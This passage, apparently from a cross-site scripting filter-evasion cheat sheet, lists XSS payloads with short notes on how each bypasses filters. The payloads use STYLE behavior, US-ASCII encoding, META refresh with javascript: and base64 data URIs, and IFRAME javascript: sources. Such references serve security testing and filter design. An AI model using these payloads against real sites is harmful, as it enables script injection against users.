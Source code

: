 <XSS STYLE="behavior: url(xss.htc);">

## US-ASCII encoding

US-ASCII encoding (found by Kurt Huwig).This uses malformed ASCII
encoding with 7 bits instead of 8. This XSS may bypass many content
filters but only works if the host transmits in US-ASCII encoding, or if
you set the encoding yourself. This is more useful against web
application firewall cross site scripting evasion than it is server side
filter evasion. Apache Tomcat is the only known server that transmits in
US-ASCII encoding.

`¼script¾alert(¢XSS¢)¼/script¾`

## META

The odd thing about meta refresh is that it doesn't send a referrer in
the header - so it can be used for certain types of attacks where you
need to get rid of referring URLs:

`<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">`

### META using data

Directive URL scheme. This is nice because it also doesn't have anything
visibly that has the word SCRIPT or the JavaScript directive in it,
because it utilizes base64 encoding. Please see RFC 2397 for more
details or go here or here to encode your own. You can also use the XSS
[calculator](http://ha.ckers.org/xsscalc.html) below if you just want to
encode raw HTML or JavaScript as it has a Base64 encoding method:

`<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">`

### META with additional URL parameter

If the target website attempts to see if the URL contains "<http://>;"
at the beginning you can evade it with the following technique
(Submitted by Moritz Naumann):

`<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">`

## IFRAME

If iframes are allowed there are a lot of other XSS problems as well:

`<IFRAME SRC="javascript:alert('XSS');"></IFRAME>`

## IFRAME Event based

IFrames and most other elements can use event based mayhem like the
following... (Submitted by: David Cross)
